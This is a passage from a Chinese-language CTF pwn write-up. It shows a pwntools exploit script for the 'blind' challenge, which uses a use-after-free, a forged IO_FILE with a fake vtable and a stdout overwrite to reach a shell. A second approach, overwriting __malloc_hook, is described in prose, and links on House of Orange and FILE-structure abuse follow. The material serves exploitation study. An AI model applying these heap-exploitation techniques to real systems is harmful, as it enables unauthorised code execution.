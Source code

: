 ```
    p.send(str(index))
    pr()

def write(addr,v,sh=0):
    change(0,p64(0x602060)+p64(addr))
    change(1,v,sh)

puts=0x601FA0
ptr=0x602060
target=0x60201d
shell=0x4008E3
new(0,"Team233")#new 0
free(0)#free 0---while release without change the ptr with chunk 0 to null
change(0,p64(target))#bug-->change without check the chunk whether free,change the vules of bss's addr directly .
new(5,p64(shell)*10)
new(3,'\x00'*3+'\x00'*0x30+p64(0x602060))#success malloc the chunk in target=0x60201d(for change the chunk 0 ptr to 0x60201d,and it can write data into bss .so that we can control the chunk list ptr.)

#and then we can write data everywhere.
#next ---we can make the fake IO_FILE

write(0x602100,p64(0xfbada887)+p64(0)*7+p64(1))
write(0x6021d8,p64(0x602200))#vtable_addr = 0x602200
write(0x602200, p64(shell)*8)
pause()
write(0x602020,p64(0x602100),1)#write stdout = 0x602020 and next printf(__xsputn)-->getshell
p.interactive()
```

#### blind的另外一个思路
用同样的方法先完成任意地址写，然后可以直接在bss段上伪造一个unsorted bin，然后把他free掉，同时让fd和bk(`main_arena+88`)落在chunk list上面，然后就可以修改libc里面的东西了。
同时有一个特点，在这个版本的libc中将`mainarena+88`的最低位改成`\x00`，恰好变成`\_malloc_hook-0x10`。因此找到一个新的想法，题目所用的编辑函数中会在输入的末位写`\x00`，可以将`ptr[4]`，指向`ptr[0]`，在编辑时，可以将`ptr[0]`写成`__malloc_hook-0x10`，这样再次编辑`ptr[0]`就可以将`__malloc_hook`改成题目中给的`system(“/bin/sh”)`函数，从而拿到`shell`了。
参考链接：
+ [大佬IO_FILE笔记](https://veritas501.space/2017/12/13/IO%20FILE%20%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/)
+ [P4nda大佬的另外一个思路](http://p4nda.top/2018/08/27/WDBCTF-2018/)

### 进阶篇2---HITCON2016   house of orange


参考链接：
+ [【技术分享】溢出利用FILE结构体](https://www.anquanke.com/post/id/84987)
+ [abusing the FILE structure[大概是最早提出这个利用的blog]](https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/)
+ [HITCON CTF Qual 2016 - House of Orange Write up---Angelboy](http://4ngelboy.blogspot.com/2016/10/hitcon-ctf-qual-2016-house-of-orange.html)
+ [【CTF攻略】CTF Pwn之创造奇迹的Top Chunk](https://www.anquanke.com/post/id/84965)
